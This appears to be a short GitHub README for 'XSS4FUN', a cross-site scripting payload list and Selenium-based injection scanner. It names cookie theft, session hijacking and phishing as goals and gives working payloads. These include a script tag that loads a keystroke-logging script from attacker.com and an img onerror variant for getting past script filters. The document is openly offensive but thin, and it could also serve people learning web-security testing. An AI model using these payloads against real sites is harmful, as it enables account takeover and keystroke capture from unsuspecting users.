# XSS4FUN :cookie:
Cross-Site-Scripting just for fun.

## Cross-Site-Scripting Applications:
  - Steal cookies for session hijacking.
  - Modify Webpage to perform phishing.
  - Inject malicious code.
## Basic payloads:
  - <script>alert(1)</script>

## Useful payloads:
  - **<script src=https://attacker.com/keystroke.js > </script>**
    - To include malicious javascript code in page.
  - **\<img src=anything onerror=alert(1) >**
    - When the **<script>** is being filtered by the Web Application, you can use javascript events.
 
## Automated Detection
  ## xss4fun.py
Using selenium to find input fields and inject payloads, if the injection is sucessful, a printscreen is made. 
